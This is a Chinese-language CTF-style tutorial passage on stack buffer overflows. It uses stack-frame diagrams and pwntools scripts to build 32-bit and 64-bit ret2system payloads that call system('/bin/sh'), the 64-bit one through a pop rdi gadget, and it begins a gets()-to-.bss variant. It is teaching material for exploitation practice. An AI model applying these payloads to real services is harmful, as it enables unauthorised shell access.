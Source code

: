 ```c
+---------------------+
|    main的局部变量    | 
+---------------------+
|   main的返回地址     | 
+---------------------+
|   保存的main的EBP    | 
+---------------------+ <--- EBP (vuln栈帧起始)
|     vuln的buf[100]  | 
+---------------------+
|  保存的vuln的EBP     | 
+---------------------+
|   vuln的返回地址     | <--- 覆盖成system的地址
+---------------------+ 
|  	system函数的返回地址| <--- 覆盖一个什么都可以p32(0)或p64(0)对齐
+---------------------+
|  新函数的第一个参数    | <--- 覆盖bin/sh地址用作参数 
+---------------------+ 
```

```python
from pwn import *
#32位
#如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，使用 p32 函数将整数值0转换为4字节的字符串。这个字符串将作为 system 函数的第二个参数，用于提供一个指向空值的指针作为 system 函数的第二个参数。当然在这里使用其他任意4个字符进行覆盖也可以 如‘aaaa’,’bbbb’等均可。 p32(bin_sh) : 这部分使用 p32 函数将 bin_sh 的地址转换为一个4字节的字符串。 bin_sh 通常是指向包含要执行的命令的字符串（如 /bin/sh ）的指针。该字符串将作为 system 函数的第一个参数。
system = elf.sym['system']
bin_sh = 0x8048750#查找地址
offset = 0x12+4
payload = 'a'*offset + p32(system) + p32(0) + p32(bin_sh)
io.sendline(payload)

#64位
#与32位不同的是它的穿参方式不同，需要利用pop rdi和ret这两个指令实现参数传递
#pop_rdi 指令用于将值从栈上弹出并存储到寄存器rdi中。在这个payload中，它用于准备传递 给 system 函数的第一个参数。
elf = ELF('./pwn')
system = elf.sym['system']		#system函数的地址
bin_sh = 0x400808	#  "bin/sh"的地址
pop_rdi = 0x4007e3  #  pop rdi ; ret
ret = 0x4004fe      #  ret 

payload = 'a'*(0xA+8) + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)
io.sendline(payload)
#可以用sh代替bin/sh
#sh还可以等价于$0
```

再进一步如果连"bin/sh"这个字符串都没有的话，我们也可以去构建一个bin/sh，然后再去构建我们自己想要的后门。还是利用栈帧图我们更好理解：

```c
+---------------------+ <--- 低地址（栈顶）
|    main的局部变量    | 
+---------------------+
|   main的返回地址     | 
+---------------------+
|   保存的main的EBP    | 
+---------------------+ <--- EBP (vuln栈帧起始)
|     vuln的buf[100]  | 
+---------------------+
|  保存的vuln的EBP     | 
+---------------------+
|   vuln的返回地址     | <--- 被覆盖为 gets() 地址（控制流劫持点）
+---------------------+ 
|   gets的返回地址     | <--- 覆盖为 pop_ebx; ret 的 gadget（清理参数）
+---------------------+
|  gets的参数1 (buf2)  | <--- 写入 "/bin/sh" 的目标地址（如 .bss 段）
```